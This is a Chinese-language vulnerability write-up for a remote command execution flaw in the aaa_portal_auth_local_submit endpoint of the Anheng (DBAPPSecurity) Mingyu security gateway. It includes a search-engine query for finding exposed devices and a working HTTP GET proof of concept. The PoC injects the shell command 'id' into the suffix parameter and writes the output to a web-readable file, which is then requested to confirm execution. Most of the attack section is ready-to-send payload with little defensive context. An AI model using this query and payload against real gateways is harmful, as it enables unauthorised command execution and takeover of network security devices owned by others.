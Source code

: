 # 

# 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

安恒 明御安全网关

## 网络测绘

```
body="/webui/images/basic/login/" && title=="明御安全网关"
```

## 漏洞复现

登录页面

![image-20230828143428738](images/image-20230828143428738.png)

验证POC

```
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![image-20230828143444585](images/image-20230828143444585.png)

```
/test.txt
```

![image-20230828143501551](images/image-20230828143501551.png)
